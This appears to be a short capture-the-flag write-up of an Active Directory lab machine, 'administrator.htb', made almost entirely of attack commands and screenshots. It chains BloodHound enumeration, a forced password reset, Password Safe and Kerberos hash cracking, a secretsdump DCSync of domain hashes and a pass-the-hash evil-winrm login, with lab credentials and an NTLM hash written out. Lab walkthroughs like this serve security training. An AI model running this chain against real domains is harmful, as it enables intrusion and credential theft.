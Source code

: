 # Credentiels to sart
```bash
bloodhound-python -u Olivia -p ichliebedich -ns 10.10.11.42 -d administrator.htb -c all

```
```bash
zip -r administrator.zip *.json
```

## Bloodhound

![Screenshot from 2024-11-22 14-54-59](https://github.com/user-attachments/assets/f7a21d64-6269-413d-b23c-f75b4ae06cd7)

```bash
net rpc password "michael" "newP@ssword2022" -U "administrator.htb"/"Olivia"%"ichliebedich" -S "10.10.11.42"

```
![Screenshot from 2024-11-22 18-36-32](https://github.com/user-attachments/assets/4079afcf-d7b9-45b5-bd99-bd0bcf32031f)
![Screenshot from 2024-11-22 18-38-21](https://github.com/user-attachments/assets/a54d724c-dc83-4dce-8887-701b90cdc69e)


```bash
pwsafe2john.py Backup.psafe3 > backuphash
```
```bash
john --wordlist=rock.txt backuphash 
```
![Screenshot from 2024-11-22 18-41-22](https://github.com/user-attachments/assets/20c08e41-72f4-46cc-98f9-c0bbb17b6f5f)

![Screenshot from 2024-11-22 18-41-54](https://github.com/user-attachments/assets/2b981876-589e-44d7-a248-d3408b9a8354)


![Screenshot from 2024-11-22 18-30-14](https://github.com/user-attachments/assets/f4f2899e-5ae2-4bf2-8e5c-9db0bc9de773)

```bash
ython3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```
### Error
![Screenshot from 2024-11-22 18-32-42](https://github.com/user-attachments/assets/ab691126-ab35-4c6e-8f2a-56db2ef0d97a)
### Fix
```bash
faketime "$(ntpdate -q administrator.htb | cut -d ' ' -f 1,2)" python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

```

```bash
hashcat -m 13100 ethan.hash rock.txt
```


```bash
secretsdump.py -outputfile administartor_hashes -just-dc ethan@10.10.11.42
```

```bash
evil-winrm -u administrator -H '3dc553ce4b9fd20bd016e098d2d2fd2e' -i administrator.htb

```
